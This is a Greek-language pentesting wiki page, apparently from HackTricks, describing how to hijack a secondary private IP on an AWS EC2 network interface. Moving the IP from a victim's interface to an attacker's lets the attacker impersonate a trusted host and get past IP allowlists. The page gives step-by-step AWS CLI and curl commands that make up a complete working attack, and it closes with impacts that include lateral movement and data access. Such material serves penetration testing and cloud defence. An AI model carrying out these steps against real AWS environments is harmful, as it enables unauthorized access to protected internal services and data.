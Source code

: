 # AWS – EC2 ENI Secondary Private IP Hijack (Trust/Allowlist Bypass)

{{#include ../../../../banners/hacktricks-training.md}}

Καταχράστε `ec2:UnassignPrivateIpAddresses` και `ec2:AssignPrivateIpAddresses` για να κλέψετε τη δευτερεύουσα ιδιωτική IP μιας ENI του θύματος και να τη μεταφέρετε σε ENI του επιτιθέμενου στο ίδιο subnet/AZ. Πολλές εσωτερικές υπηρεσίες και ομάδες ασφάλειας ελέγχουν την πρόσβαση βάσει συγκεκριμένων ιδιωτικών IP. Μετακινώντας αυτή τη δευτερεύουσα διεύθυνση, ο επιτιθέμενος μιμείται τον αξιόπιστο host στο L3 και μπορεί να φτάσει υπηρεσίες που βρίσκονται σε allowlist.

Prereqs:
- Δικαιώματα: `ec2:DescribeNetworkInterfaces`, `ec2:UnassignPrivateIpAddresses` στο ARN της ENI του θύματος, και `ec2:AssignPrivateIpAddresses` στο ARN της ENI του επιτιθέμενου.
- Και οι δύο ENI πρέπει να είναι στο ίδιο subnet/AZ. Η στοχευόμενη διεύθυνση πρέπει να είναι δευτερεύουσα IP (η primary δεν μπορεί να αποδεσμευτεί).

Variables:
- REGION=us-east-1
- VICTIM_ENI=<eni-xxxxxxxx>
- ATTACKER_ENI=<eni-yyyyyyyy>
- PROTECTED_SG=<sg-protected>   # SG σε υπηρεσία-στόχο που επιτρέπει μόνο το $HIJACK_IP
- PROTECTED_HOST=<private-dns-or-ip-of-protected-service>  # ιδιωτικό DNS ή IP της προστατευμένης υπηρεσίας

Steps:
1) Επιλέξτε μία δευτερεύουσα IP από την ENI του θύματος
```bash
aws ec2 describe-network-interfaces --network-interface-ids $VICTIM_ENI --region $REGION   --query NetworkInterfaces[0].PrivateIpAddresses[?Primary==`false`].PrivateIpAddress --output text | head -n1 | tee HIJACK_IP
export HIJACK_IP=$(cat HIJACK_IP)
```
2) Διασφάλισε ότι ο προστατευμένος host επιτρέπει μόνο αυτήν την IP (idempotent). Αν χρησιμοποιείς SG-to-SG κανόνες, παράλειψε.
```bash
aws ec2 authorize-security-group-ingress --group-id $PROTECTED_SG --protocol tcp --port 80   --cidr "$HIJACK_IP/32" --region $REGION || true
```
3) Βασική κατάσταση: από attacker instance, το αίτημα προς PROTECTED_HOST πρέπει να αποτύχει χωρίς spoofed source (π.χ., μέσω SSM/SSH)
```bash
curl -sS --max-time 3 http://$PROTECTED_HOST || true
```
4) Αφαίρεση της secondary IP από το victim ENI
```bash
aws ec2 unassign-private-ip-addresses --network-interface-id $VICTIM_ENI   --private-ip-addresses $HIJACK_IP --region $REGION
```
5) Αναθέστε την ίδια IP στην ENI του επιτιθέμενου (στο AWS CLI v1 προσθέστε `--allow-reassignment`)
```bash
aws ec2 assign-private-ip-addresses --network-interface-id $ATTACKER_ENI   --private-ip-addresses $HIJACK_IP --region $REGION
```
6) Επαλήθευση μεταφοράς ιδιοκτησίας
```bash
aws ec2 describe-network-interfaces --network-interface-ids $ATTACKER_ENI --region $REGION   --query NetworkInterfaces[0].PrivateIpAddresses[].PrivateIpAddress --output text | grep -w $HIJACK_IP
```
7) Από το attacker instance, κάντε source-bind στην hijacked IP για να φτάσετε τον protected host (βεβαιωθείτε ότι η IP είναι ρυθμισμένη στο OS· αν όχι, προσθέστε την με `ip addr add $HIJACK_IP/<mask> dev eth0`)
```bash
curl --interface $HIJACK_IP -sS http://$PROTECTED_HOST -o /tmp/poc.out && head -c 80 /tmp/poc.out
```
## Επιπτώσεις
- Παρακάμψτε IP allowlists και προσποιηθείτε αξιόπιστους hosts εντός του VPC μετακινώντας secondary private IPs μεταξύ ENIs στο ίδιο subnet/AZ.
- Πρόσβαση σε εσωτερικές υπηρεσίες που ελέγχουν την πρόσβαση με βάση συγκεκριμένες source IPs, επιτρέποντας lateral movement και πρόσβαση σε δεδομένα.
{{#include ../../../../banners/hacktricks-training.md}}
